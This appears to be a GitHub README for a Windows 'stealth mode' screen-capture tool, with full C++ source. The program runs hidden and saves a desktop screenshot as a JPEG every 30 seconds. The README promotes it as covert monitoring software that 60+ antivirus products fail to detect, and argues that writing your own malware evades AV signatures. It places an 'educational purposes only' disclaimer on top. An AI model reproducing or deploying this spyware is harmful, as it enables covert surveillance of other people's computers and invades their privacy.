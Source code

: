 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

![𝚅𝚒𝚜𝚒𝚝𝚘𝚛𝚜](https://visitor-badge.laobi.icu/badge?page_id=ajayrandhawa.Keylogger-Screen-Capture&title=Visitor )

## Auto Screen Capture (Stealth Mode) :

https://sourceforge.net/projects/hidden-screen-caputure/

It is primary designed to be hidden and monitoring the computer activity. Take a screenshot of desktop in hidden mode using Visual C++ and save automatically to 'jpeg' file in every 30 second. 60+ Most Popular antivirus not detect this application while it is running on background.

<img src="view.gif" >

### Why Programming Is Important for Hackers to Know :

Programming is an important skill that every self respecting hacker should master. here are some good examples of why it is important:

> <b>Building your own malware. </b>
When you program your own malware, there is no signature for it registered, thus making it pretty much impossible for AV software to detect.

> <b>Knowing how programs work will help you exploit them. </b>
though most exploit development is done in the assembly language in debuggers, knowing how a program works will help you exploit it faster.

> <b>Hacking tools are mostly open source. </b>
most hacking tools are open source, which means everyone can access the source code of said program. when you know how to program in the language the program is written, you can edit it and make it even better!

> <b>Making your own exploits. </b>
Though i recommend ruby & the Metasploit Framework for this purpose, ruby is still quite slow compared to C or C++. if you need your exploit to be fast, you can write it in C/C++.

I choose to make a series about C/C++ because C++ is a powerful language and is used in a lot of programs, like games. C is less powerfull but is still quite a low-level language, which means it interacts closely with the CPU. embedded devices are usually programmed in C aswell, from traffic lights to your microwave, will most likely run on some kind of software that is written in C.

### Prerequisites:

1. Microsoft Windows System
2. Visual Studio 2012

### Screenshot.zip (Files Included in Repo)

Contain Executable Version of Program. It run in Stealth Mode and Capture the Screenshot after 60 seconds of interval. Imaege name is based on Current System Time.

### Source Code :

```
#include <stdio.h>
#include <string>
#include <windows.h>
#include <wininet.h>
#include <winuser.h>
#include <conio.h>
#include <time.h>
#include <fstream>
#include <strsafe.h>
#include <io.h>
#include <crtdefs.h>
#include <fstream>
#include <GdiPlus.h>
#include <lmcons.h>

//char acUserName[100];

using namespace Gdiplus;
using namespace std;

fstream err("errormul.txt",ios::app);
fstream log_error_file("log_error.txt",ios::app);

#pragma comment(lib, "user32.lib") 
#pragma comment(lib,"Wininet.lib")
#pragma comment (lib,"gdiplus.lib")

void screenshot(string file){
	ULONG_PTR gdiplustoken;
	GdiplusStartupInput gdistartupinput;
	GdiplusStartupOutput gdistartupoutput;

	gdistartupinput.SuppressBackgroundThread = true;
	GdiplusStartup(& gdiplustoken,& gdistartupinput,& gdistartupoutput); //start GDI+

	HDC dc=GetDC(GetDesktopWindow());//get desktop content
	HDC dc2 = CreateCompatibleDC(dc);	 //copy context

	RECT rc0kno;  // rectangle  Object

	GetClientRect(GetDesktopWindow(),&rc0kno);// get desktop size;
	int w = rc0kno.right-rc0kno.left;//width
	int h = rc0kno.bottom-rc0kno.top;//height

	HBITMAP hbitmap = CreateCompatibleBitmap(dc,w,h);  //create bitmap
	HBITMAP holdbitmap = (HBITMAP) SelectObject(dc2,hbitmap);

	BitBlt(dc2, 0, 0, w, h, dc, 0, 0, SRCCOPY);  //copy pixel from pulpit to bitmap
	Bitmap* bm= new Bitmap(hbitmap,NULL);

	UINT num;
	UINT size;

	ImageCodecInfo *imagecodecinfo;
	GetImageEncodersSize(&num,&size); //get count of codec

	imagecodecinfo = (ImageCodecInfo*)(malloc(size));
	GetImageEncoders (num,size,imagecodecinfo);//get codec

	CLSID clsidEncoder;

	for(int i=0; i < num; i++)
	{
		if(wcscmp(imagecodecinfo[i].MimeType,L"image/jpeg")==0)
			clsidEncoder = imagecodecinfo[i].Clsid;   //get jpeg codec id

	}

	free(imagecodecinfo);

	wstring ws;
	ws.assign(file.begin(),file.end());  //sring to wstring
	bm->Save(ws.c_str(),& clsidEncoder);   //save in jpeg format
	SelectObject(dc2,holdbitmap);  //Release Objects
	DeleteObject(dc2);
	DeleteObject(hbitmap);

	ReleaseDC(GetDesktopWindow(),dc);
	GdiplusShutdown(gdiplustoken);

}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPTSTR lpCmdLine, int CmdShow)
{
	while(true){
	SYSTEMTIME st;  // create object of system time 
	GetLocalTime(&st);
	int year = st.wYear;  // extract year from system time
	int month = st.wMonth; // extract month from system time
	int day = st.wDay; // extract year day system time
	int hour = st.wHour; // extract year hours system time
	int mintue = st.wMinute; // extract mintue from system time

	string yearS =  to_string(year);
	yearS += "_";
	string monthS =  to_string(month);
	monthS += "-";
	string dayS =  to_string(day);
	dayS += "-";
	string hourS =  to_string(hour);
	hourS += "H-";
	string mintueS =  to_string(mintue);
	mintueS += "M.jpg";

	string startDate;
	startDate =dayS + monthS + yearS + hourS + mintueS;  // create complete string of date and time
	
	screenshot(startDate);   // send string to screenshot function
	Sleep(1000*30*1);  // delay execution of function 60 Seconds
	}
}

```
## Version

1.7

## Happy Open Source
